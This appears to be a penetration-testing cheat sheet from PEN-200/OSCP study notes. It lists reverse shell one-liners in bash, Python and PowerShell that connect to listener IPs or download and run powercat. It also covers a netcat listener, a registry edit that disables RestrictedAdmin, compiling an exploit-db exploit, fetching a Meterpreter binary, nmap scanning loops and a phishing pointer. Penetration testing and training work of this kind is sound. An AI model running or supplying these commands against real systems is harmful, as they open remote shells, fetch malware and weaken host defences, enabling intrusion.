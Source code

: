 | **Reverse shells**                                                                                                                                     | **Description**                                 |
| ------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------- |
| `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1`                                                                                                          | Common reverse shell                            |
| `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`                                                                                                | If prior shell doesn't work due to Bourne Shell |
| `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.190",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python reverse shell                            |
| `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.190/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`            | Powershell reverse shell with PowerCat          |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |


Google dork to search exploits (Instead of searchsploit):
```text
phpMyAdmin 4.9.2 site:exploit-db.com
```

Extract metadata from a file

```
exiftool -a -u brochure.pdf
```

#### Windows

When xfreerdp admin doesn't work
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

PS - Enable terminal color (for WinPeas for example)
```shell
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

PS - Get local user
```shell
Get-LocalUser
```

PS - List IP and hostnames in AD environment
```shell
Get-ADComputer -Filter * | Select-Object DNSHostName, @{name="Ip";Expression={(Test-Connection $_.DNSHostname -Count 1).IPV4Address.IPAddressToString}}
```

Check current shell:
```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Cross-platform exploit compiling:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```

If we get errors due to the linker cannot find the winsock library:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

Find filename:
```shell
dir -Path C:\  -Include flag.txt -File -Recurse -ErrorAction SilentlyContinue
```

Retrieve a file in Powershell (same as wget)
```shell
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
```

| Enumerating                                                                                                                                                                                                                                                                                                 | **Description**                  |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| `for i in $(cat ../internal-network.txt); do mkdir -p $i/nmap; nmap -p- --min-rate=10000 --open $i -oA "$i/nmap/quick-scan"; done`                                                                                                                                                                          | Quick scan from scope file       |
| `mkdir nmap`<br>`for i in $(cat scope.txt); do sudo nmap -p- --min-rate=10000 --open $i -oG nmap/$i; done`<br>`cd nmap`<br>`for i in $(ls \| grep -v '.nmap'); do extractPorts $i; export clipboard_content=`xclip -o -selection clipboard`; nmap -p $clipboard_content -sCV -A -T4 $i -oN "$i.nmap"; done` | Script to process scope.txt file |

**Phising:** Refer to PEN-200 content, 24.3.2 module and use swaks